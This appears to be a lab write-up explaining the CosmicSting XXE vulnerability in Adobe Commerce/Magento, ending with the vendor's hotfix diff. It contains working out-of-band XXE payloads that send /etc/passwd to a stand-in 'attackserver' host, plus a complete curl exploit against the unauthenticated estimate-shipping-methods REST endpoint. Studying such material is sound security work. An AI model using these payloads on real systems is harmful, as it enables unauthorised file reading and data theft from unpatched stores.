 # Sources
- https://helpx.adobe.com/security/products/magento/apsb24-40.html
- https://www.vicarius.io/vsociety/posts/cosmicsting-critical-unauthenticated-xxe-vulnerability-in-adobe-commerce-and-magento-cve-2024-34102
- https://www.youtube.com/watch?v=gjm6VHZa_8s

# What is XML XXE Injection?
- XML Externel Entity Injection

# How does it work?

- XML DTD defines the structure, elements, attributes of XML documents ("ELEMENT")
- DTD can define entities ("ENTITY") - storage units for values
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ELEMENT person (firstname,lastname)>
<!ELEMENT firstname (#PCDATA)>
<!ELEMENT lastname (#PCDATA)>
<!ENTITY lastname "Bumbler">
]>
<person>
  <firstname>Billy</firstname>
  <lastname>&lastname;</lastname>  
</person>
```

- DTD entities can be general entities ("&") or parameter entites ("%")
- general entities are primarily used inside the document itself
- parameter entities can only be read inside DTDs and allow its values to be entities
```
<!DOCTYPE note [
<!ENTITY % parameter_entity "<!ENTITY general_entity 'bar'>">
%parameter_entity;
]>
<foo>&general_entity;</foo>
```

- XML DTD can be obtained from external sources -> keyword SYSTEM
- external source can be file, URI ...
```
<!DOCTYPE foo SYSTEM "local/file/some.dtd">
```

- now we can read the contents of a file from the local FS
- and we can substitute part of a URL on our attack server with that content
```
<!DOCTYPE xxe [
<!ENTITY % data SYSTEM "/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attackserver?%data;'>">
%param1;
]>
<foo>&exfil;</foo>
```

- this does per specification of DTD NOT work with inline DTDs but with external DTDs -> now we have to reference a dtd on our attack server in our XML
- External DTD at http://attackserver/dtd.xml:
```
<!ENTITY % data SYSTEM "/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attackserver?%data;'>">
```
- XML in request
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM \"http://attackserver/dtd.xml\">
%sp;
%param1;
]>
<r>&exfil;</r>
```

- this is called an out of band XXE Injection

# Types of XXE

- inband -> response contains the critial data
- out of band -> response does NOT contain critical datah
- error based -> error is thrown containing the critical data

# Wait what?? What does that have to do with the Magento REST API?!?!?!

- Magento REST API deserializes in a very generic manner that is not secure
- When deserializing a non-scalar object like "product" it tries to match the given child-parameters to a) setter functions or b) constructor arguments
- there is no validation if those should be user facing or not
```
"product": {
    "id": 0,
    "sku": "string",
    "name": "string",
    ...
    "product_links": [{
        "sku": "string",
        "link_type": "string",
        ...
```
- that is why we can do this for rest/V1/guest-carts/test-assetnote/estimate-shipping-methods
```
"address": {
  "totalsReader": {
  "collectorList": {
  "totalCollector": {
  "sourceData": {
```
- rest/V1/guest-carts/test-assetnote/estimate-shipping-methods does not require authentication
- sourceData extends SimpleXmlElement which includes dataIsURL parameter that enables XXE
- dataIsURL even had a bug that allowed for XXE without dataIsURL=true
- options = 16 means that DTD usage is enabled
```
  "address": {
  "totalsReader": {
  "collectorList": {
  "totalCollector": {
  "sourceData": {
  "data": "<?xml version=\"1.0\" ?> <!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % ext SYSTEM \"http://10.0.2.15:6667/dtd.xml\"> %ext; %param1; ]> <r>&exfil;</r>",
  "options": 16
```

# Perform le exploit!

- start local Magento with vulnerable version
- start local attack server
- perform curl request as seen below
```
curl -k -X POST \
  https://eckart.docker/rest/all/V1/guest-carts/test-assetnote/estimate-shipping-methods \
  -H "Accept: application/json, text/javascript, */*; q=0.01" \
  -H "X-Requested-With: XMLHttpRequest" \
  -H "Content-Type: application/json" \
  -d '{
  "address": {
  "totalsReader": {
  "collectorList": {
  "totalCollector": {
  "sourceData": {
  "data": "<?xml version=\"1.0\" ?> <!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % ext SYSTEM \"http://10.0.2.15:6667/dtd.xml\"> %ext; %param1; ]> <r>&exfil;</r>",
  "options": 16
  }}}}}}'
```

# Hotfix in Magento
- if webapi request contains SimpleXMLElement or DOMElement throw error
```
diff --git a/vendor/magento/framework/Webapi/ServiceInputProcessor.php b/vendor/magento/framework/Webapi/ServiceInputProcessor.php
index 9d7fd443508..65987772c23 100644
--- a/vendor/magento/framework/Webapi/ServiceInputProcessor.php
+++ b/vendor/magento/framework/Webapi/ServiceInputProcessor.php
@@ -275,6 +275,12 @@ class ServiceInputProcessor implements ServicePayloadConverterInterface
         // convert to string directly to avoid situations when $className is object
         // which implements __toString method like \ReflectionObject
         $className = (string) $className;
+        if (is_subclass_of($className, \SimpleXMLElement::class)
+            || is_subclass_of($className, \DOMElement::class)) {
+            throw new SerializationException(
+                new Phrase('Invalid data type')
+            );
+        }
         $class = new ClassReflection($className);
         if (is_subclass_of($className, self::EXTENSION_ATTRIBUTES_TYPE)) {
             $className = substr($className, 0, -strlen('Interface'));
```
